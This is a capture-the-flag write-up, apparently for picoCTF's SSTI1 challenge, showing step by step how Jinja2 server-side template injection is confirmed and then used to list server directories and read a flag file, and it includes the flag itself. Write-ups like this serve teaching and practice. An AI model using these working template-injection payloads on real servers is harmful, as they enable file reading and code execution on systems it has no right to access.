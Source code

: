 # 🧠 SSTI1 – Server-Side Template Injection

## 🧩 Challenge Description

A web form takes user input and reflects it back into the page.  
Suspicion: the server uses a vulnerable template engine (e.g. Jinja2).  
Objective: exploit the SSTI to retrieve a flag stored in the server filesystem.

---

## 🛠️ Tools Used

- Browser (Firefox/Chrome)
- Jinja2 SSTI payloads
- [PayloadAllTheThings – SSTI Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

---

## 🧪 Exploitation Steps

### 🧪 Step 1 – Confirm SSTI

Entered:
```
{{7*7}}
```
✅ Confirms that template expressions are evaluated → SSTI vulnerability exists.  
![Step 1 – SSTI Reflection](../screenshots/ssti1-reflection.png)
---

### 🗂 Step 2 – List Root Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/')}}
```
✅ Identified a suspicious directory.  
![Step 2 – List Root](../screenshots/ssti1-root-dir.png)
---

### 📂 Step 3 – Explore `/challenge/` Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/challenge')}}
```
🎯 Located the `flag` file.  
![Step 3 – Challenge Folder](../screenshots/ssti1-challenge-dir.png)
---

### 🏁 Step 4 – Read the Flag File

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['open']('/challenge/flag').read()}}
```
📥 Extracted the flag.  
![Step 4 – Flag Found](../screenshots/ssti1-flag-read.png)
---

## 🏁 Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```

---

✅ This challenge highlights the risk of rendering unescaped user input using server-side template engines like Jinja2.

